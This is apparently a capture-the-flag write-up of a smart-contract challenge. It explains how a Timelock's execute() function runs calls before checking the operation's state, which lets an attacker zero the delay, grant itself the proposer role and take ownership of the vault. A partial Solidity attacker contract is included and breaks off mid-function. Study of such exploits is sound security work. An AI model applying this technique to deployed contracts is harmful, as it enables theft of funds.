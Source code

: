     The owner of the vault, currently a timelock contract, can withdraw a very limited amount of tokens every 15 days.

    On the vault there's an additional role with powers to sweep all tokens in case of an emergency.

    On the timelock, only an account with a "Proposer" role can schedule actions that can be executed 1 hour later.

    Your goal is to empty the vault.

- - -

In this challenge, our goal is to empty the vault. We must to know about UUPS upgrade concept to solve this challenge. Firstly, the vulnerability is found in `Timelock` contract. The `execute()` function does not follows Checks Effects Interactions pattern.

```solidity
    // lines in execute()
    for (uint8 i = 0; i < targets.length; i++) {
        targets[i].functionCallWithValue(dataElements[i], values[i]);
    }
    
    require(getOperationState(id) == OperationState.ReadyForExecution);
```

This code allows us to make a schedule for execution before require statement, which means we can call `execute()` function first, and then add schedule that matches `operationId`. Also, during execution, we can call any function we want with address of __timelock contract__. To go through the require statement, first we need to call `updateDelay()` function with parameter `0`. Then set the attack contract to have proposer role, and call `transferOwnership()` to set the vault owner to be attack contract. Lastly, call `schedule()` function. Here is the attack contract.

```solidity

contract ClimberAttacker {

    address payable public climberTimelock;
    address payable public climberVault;
    address public token;

    address[] public targets;
    uint256[] public values;
    bytes[] public data;

    bytes32 public constant ADMIN_ROLE = keccak256("ADMIN_ROLE");
    bytes32 public constant PROPOSER_ROLE = keccak256("PROPOSER_ROLE");

    constructor(address payable _climberTimelock, address payable _climberVault, address _token){
        token = _token;
        climberTimelock = _climberTimelock;
        climberVault = _climberVault;
    }

    function attack() public {

        targets.push(climberTimelock);
        values.push(0);
        data.push((abi.encodeWithSignature("updateDelay(uint64)", uint64(0))));

        targets.push(climberTimelock);
        values.push(0);
        data.push(abi.encodeWithSignature("grantRole(bytes32,address)", keccak256("PROPOSER_ROLE"), address(this)));

        targets.push(climberVault);
        values.push(0);
        data.push(abi.encodeWithSignature("transferOwnership(address)", address(this)));
        
```
